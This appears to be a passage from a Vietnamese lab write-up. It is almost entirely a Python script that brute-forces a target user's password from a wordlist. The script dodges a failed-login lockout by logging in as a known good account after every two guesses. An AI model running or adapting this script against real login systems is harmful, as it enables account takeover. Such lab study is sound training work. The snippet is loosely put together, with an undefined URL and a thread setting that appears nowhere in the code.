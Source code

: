 ```max_workers=20```: có nghĩa là chạy cùng lúc 20 luồng
session = requests.Session()
good_user = "wiener"
good_pwd = "peter"
target_user = "carlos"
with open("password.txt", "r") as f:
    passwords = [line.strip() for line in f]
    
def try_login(username, password):
    data = {
        "username": username,
        "password": password
    }
    response = session.post(URL, data=data, allow_redirects=False)
    return response.status_code == 302

count = 0
for pwd in passwords:
    print(f"[count] Trying: {target_user}:{pwd}")
    if try_login(target_user, pwd):
        print(f"[+] SUCCESS: {target_user}:{pwd}")
        break
    count += 1
    
    if count % 2 == 0:
        print("[@] Ressetting counter.......")
        try_login(good_user, good_pwd)
```

